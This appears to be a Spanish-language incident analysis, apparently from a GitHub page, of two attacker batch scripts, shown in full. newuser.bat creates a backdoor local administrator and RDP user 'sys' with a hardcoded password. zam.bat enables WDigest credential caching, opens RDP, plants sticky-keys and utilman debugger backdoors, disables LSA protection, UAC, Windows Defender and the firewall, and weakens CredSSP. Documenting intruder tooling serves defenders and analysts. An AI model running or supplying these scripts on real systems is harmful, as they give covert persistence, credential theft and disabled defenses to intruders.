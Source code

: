 **newuser.bat** - Creacion de nuevo usuario "sys" con contraseña "t1518061-" (Adminsitrador local y RDP)
```bat
Set AdmGroupSID=S-1-5-32-544
Set AdmGroup=
For /F "UseBackQ Tokens=1* Delims==" %%I In (WMIC Group Where "SID = '%AdmGroupSID%'" Get Name /Value ^| Find "=") Do Set AdmGroup=%%J
Set AdmGroup=%AdmGroup:~0,-1%
net user sys t1518061- /add
net localgroup %AdmGroup% sys /add

Set RDPGroupSID=S-1-5-32-555
Set RDPGroup=
For /F "UseBackQ Tokens=1* Delims==" %%I In (WMIC Group Where "SID = '%RDPGroupSID%'" Get Name /Value ^| Find "=") Do Set RDPGroup=%%J
Set RDPGroup=%RDPGroup:~0,-1%
net localgroup "%RDPGroup%" sys /add
net accounts /maxpwage:unlimited
```
 

🥷 **Tácticas de Evasión de Defensas**

Tras crear este usuario, se usó el usuario "sys" para mediante otro batch script modificar el registro de windows y habilitar WDigest (almacenamiento de credenciales en caché), habilitar RDP mediante una regla del firewall de Windows y deshabilitar Windows Defender.

**zam.bat** (Habilita WDigest, Habilita RDP, Deshabilita Windows Defender)
```bat
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
reg add HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow
reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\HelpPane.exe /f /v Debugger /t REG_SZ /d "%WINDIR%\system32\cmd.exe"
reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe /f /v Debugger /t REG_SZ /d "%WINDIR%\system32\cmd.exe"
reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Magnify.exe /f /v Debugger /t REG_SZ /d "%WINDIR%\system32\cmd.exe"
reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe /f /v Debugger /t REG_SZ /d "%WINDIR%\system32\cmd.exe"
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL /t REG_DWORD /d 0
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services /f /v fDenyTSConnections /t REG_DWORD /d 00000000
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services /f /v fAllowUnsolicited /t REG_DWORD /d 00000001
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services /f /v UserAuthentication /t REG_DWORD /d 00000000
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp /f /v SecurityLayer /t REG_DWORD /d 00000001
reg add HKLM\SYSTEM\CurrentControlSet\services\WinDefend /v Start /t REG_DWORD /d 4 /f
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
reg add HKLM\Software\Policies\Microsoft\Windows Defender /v DisableAntiSpyware /t REG_DWORD /d 1 /f
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon /v DisableCAD /t REG_DWORD /d 0 /f
netsh advfirewall set allprofiles state off
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters /v AllowEncryptionOracle /t REG_DWORD /d 2
```
 